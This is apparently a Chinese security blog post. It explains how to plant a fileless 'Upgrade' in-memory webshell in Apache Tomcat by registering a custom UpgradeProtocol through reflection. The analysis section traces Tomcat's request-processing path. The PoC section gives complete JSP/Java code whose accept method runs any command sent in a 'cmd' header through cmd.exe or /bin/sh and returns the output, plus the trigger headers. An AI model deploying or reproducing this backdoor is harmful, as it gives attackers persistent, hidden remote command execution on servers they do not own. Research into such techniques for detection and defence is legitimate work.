


# 0x01 Previous Review

上篇的Executor内存马是在EndPoint下的，实际上Processor中也能找到内存马的植入点



Processor负责处理字节流生成Tomcat Request 对象，将Tomcat Request对象传递给 Adapter。其实就是处理HTTP请求的，对应的类为`AbstractProcessorLight`

# 0x02 Analysis

`NioEndpoint#doRun`处理网络Socket连接，调用`AbstractProtocol$ConnectionHandler#process`


跟进看到，创建了一个`Http11Processor`（`AbstractProcessorLight`子类），并调用其process方法，跟进去看看


status为`OPEN_READ`，调用service方法


若请求的`Connection`头字段有Upgrade标志，且存在`Upgrade`头，首先通过`AbstractProtocol#getUpgradeProtocol`获取`UpgradeProtocol`对象，再调用其`accept`方法（利用点便在此）


拿到Upgrade头字段后，通过`httpUpgradeProtocols.get(upgradeName)`获取`UpgradeProtocol`


所以接下来的关注点就在`httpUpgradeProtocols`

全局搜索`httpUpgradeProtocols`，发现`AbstractHttp11Protocol#configureUpgradeProtocol`往其添加`UpgradeProtocol`


搜索发现`AbstractHttp11Protocol#init`中调用了`configureUpgradeProtocol`



说明`httpUpgradeProtocols`是在Tomcat启动时被实例化的。

在当前上下文找到`AbstractHttp11Protocol`（上下文环境中会是`Http11NioProtocol`），通过反射往`httpUpgradeProtocols`加入我们自定义的`UpgradeProtocol`就行，`UpgradeProtocol`的`accept`方法加入恶意代码。

# 0x03 POC

## 构造恶意UpgradeProtocol

在`Http11Processor`的`process`方法中会检测`Connection`和`Upgrade`的头部字段，根据`Upgrade`头部字段获取`UpgradeProtocol`，调用其`accept`方法，参数是`org.apache.coyote.Request`，刚好能通过反射获取到response对象。

```java
public boolean accept(org.apache.coyote.Request request) {
    System.out.println("MyUpgrade.accept");
    String p = request.getHeader("cmd");
    try {
        String[] cmd = System.getProperty("os.name").toLowerCase().contains("windows") ? new String[]{"cmd.exe", "/c", p} : new String[]{"/bin/sh", "-c", p};
        Field response = org.apache.coyote.Request.class.getDeclaredField("response");
        response.setAccessible(true);
        Response resp = (Response) response.get(request);
        byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
        resp.doWrite(ByteBuffer.wrap(result));
    } catch (Exception e){}
    return false;
}
```

反射修改`httpUpgradeProtocols`：

```jsp
Field reqF = request.getClass().getDeclaredField("request");
reqF.setAccessible(true);
Request req = (Request) reqF.get(request);
Field conn = Request.class.getDeclaredField("connector");
conn.setAccessible(true);
Connector connector = (Connector) conn.get(req);
Field proHandler = Connector.class.getDeclaredField("protocolHandler");
proHandler.setAccessible(true);
AbstractHttp11Protocol handler = (AbstractHttp11Protocol) proHandler.get(connector);
HashMap<String, UpgradeProtocol> upgradeProtocols = null;
Field upgradeProtocolsField = AbstractHttp11Protocol.class.getDeclaredField("httpUpgradeProtocols");
upgradeProtocolsField.setAccessible(true);
upgradeProtocols = (HashMap<String, UpgradeProtocol>) upgradeProtocolsField.get(handler);
upgradeProtocols.put("p4d0rn", new MyUpgrade());
upgradeProtocolsField.set(handler, upgradeProtocols);
```

访问时需带上下面头字段：

> Upgrade: p4d0rn
>
> Connection: Upgrade
>
> cmd: calc

完整POC：

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Connector" %>
<%@ page import="org.apache.coyote.http11.AbstractHttp11Protocol" %>
<%@ page import="org.apache.coyote.UpgradeProtocol" %>
<%@ page import="java.util.HashMap" %>
<%@ page import="org.apache.coyote.Processor" %>
<%@ page import="org.apache.tomcat.util.net.SocketWrapperBase" %>
<%@ page import="org.apache.coyote.Adapter" %>
<%@ page import="org.apache.coyote.http11.upgrade.InternalHttpUpgradeHandler" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%!
    public class MyUpgrade implements UpgradeProtocol {
        public String getHttpUpgradeName(boolean isSSLEnabled) {
            return "p4d0rn";
        }

        public byte[] getAlpnIdentifier() {
            return new byte[0];
        }

        public String getAlpnName() {
            return null;
        }

        public Processor getProcessor(SocketWrapperBase<?> socketWrapper, Adapter adapter) {
            return null;
        }

        public InternalHttpUpgradeHandler getInternalUpgradeHandler(Adapter adapter, org.apache.coyote.Request request) {
            return null;
        }

        @Override
        public boolean accept(org.apache.coyote.Request request) {
            System.out.println("MyUpgrade.accept");
            String p = request.getHeader("cmd");
            System.out.println(p);
            try {
                String[] cmd = System.getProperty("os.name").toLowerCase().contains("windows") ? new String[]{"cmd.exe", "/c", p} : new String[]{"/bin/sh", "-c", p};
                Field response = org.apache.coyote.Request.class.getDeclaredField("response");
                response.setAccessible(true);
                org.apache.coyote.Response resp = (org.apache.coyote.Response) response.get(request);
                System.out.println("hhhh");
                InputStream in = new ProcessBuilder(cmd).start().getInputStream();
                BufferedReader stdInput = new BufferedReader(new InputStreamReader(in));
                String s = "";
                String tmp = "";
                while ((tmp = stdInput.readLine()) != null) {
                    s += tmp;
                }
                resp.setHeader("Result", s);
            } catch (Exception e){
                System.out.println(e);
            }
            return false;
        }

    }
%>
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    Field conn = Request.class.getDeclaredField("connector");
    conn.setAccessible(true);
    Connector connector = (Connector) conn.get(req);
    Field proHandler = Connector.class.getDeclaredField("protocolHandler");
    proHandler.setAccessible(true);
    AbstractHttp11Protocol handler = (AbstractHttp11Protocol) proHandler.get(connector);
    HashMap<String, UpgradeProtocol> upgradeProtocols = null;
    Field upgradeProtocolsField = AbstractHttp11Protocol.class.getDeclaredField("httpUpgradeProtocols");
    upgradeProtocolsField.setAccessible(true);
    upgradeProtocols = (HashMap<String, UpgradeProtocol>) upgradeProtocolsField.get(handler);
    upgradeProtocols.put("p4d0rn", new MyUpgrade());
    upgradeProtocolsField.set(handler, upgradeProtocols);
%>
```


参考：

[一种新的Tomcat内存马 - Upgrade内存马 - 跳跳糖 (tttang.com)](https://tttang.com/archive/1709/)

[初探Upgrade内存马(内存马系列篇六) - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/345119.html)